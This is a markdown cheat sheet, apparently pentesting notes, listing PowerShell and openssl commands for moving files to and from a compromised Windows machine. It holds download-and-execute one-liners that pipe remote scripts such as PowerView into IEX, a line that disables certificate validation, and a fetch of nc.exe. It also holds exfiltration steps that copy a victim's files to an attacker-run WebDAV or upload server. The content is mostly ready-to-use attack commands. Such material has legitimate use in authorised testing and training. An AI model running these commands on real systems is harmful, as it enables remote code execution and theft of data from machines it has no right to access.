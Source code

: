 # Powershell - file transfert

## powershell - DownloadString, file download
```
IEX (New-Object Net.WebClient).DownloadString('<url>')
```

## powershell - DownloadString, file download
```
(New-Object Net.WebClient).DownloadString('<url>') | IEX
[System.Net.ServicePointManager]::ServerCertificateValidationCallback = {$true} // if certificate is not trusted
```

## powershell - InvokeWebRequest, file download
```
Invoke-WebRequest <url> -OutFile <Outfile>
Invoke-WebRequest https://<ip>/PowerView.ps1 -UseBasicParsing | IEX // if IE first-launch conf has not been completed, bypass
```

## powershell - copy file from smbserver
```
copy \\<IP>\<share>\<file>
```
## powershell - ftp, copy file
 ```
(New-Object Net.WebClient).DownloadFile('ftp://<ip>/<file>', '<outfile>')
```

## powershell - Invoke-FileUpload, upload a file to python upload server
```
IEX(New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/juliourena/plaintext/master/Powershell/PSUpload.ps1')
Invoke-FileUpload -Uri http://<IP>:<PORT>/upload -File
```

## powershell - B64 web upload
```
[System.convert]::ToBase64String((Get-Content -Path '<File>' -Encoding Byte))
```

## powershell - webdav file upload (install wsgidav cheroot on atk machine)
```
// atk machine
sudo wsgidav --host=0.0.0.0 --port=80 --root=/tmp --auth=anonymous

// victim
// dir \\<IP>\DavWWWRoot // connecto the root of WebDAV srv
copy C:\Users\john\Desktop\SourceCode.zip \\<IP>\<share>\

```

## Invoke-WebRequest using a Chrome User Agent
```
Invoke-WebRequest http://nc.exe -UserAgent [Microsoft.PowerShell.Commands.PSUserAgent]::Chrome -OutFile "nc.exe"
```
## powersehell - winrm transfert
```
// create a pwsh remoting session
$Session = New-PSSession -ComputerName <COMPUTER NAME>

// Copy FILE from our Localhost to the DEST Session
Copy-Item -Path <Path/to/file> -ToSession $Session -Destination <path/to/dest>

// Copy FILE from DEST Session to our Localhost
Copy-Item -Path "<FILE>" -Destination C:\ -FromSession $Session
```

## openssl - file encryption
```markdown
openssl enc -aes256 -iter 100000 -pbkdf2 -in <input_file> -out <output_file>
```

## openssl - file decryption
```markdown
openssl enc -d -aes256 -iter 100000 -pbkdf2 -in <input_file> -out <output_file>
```
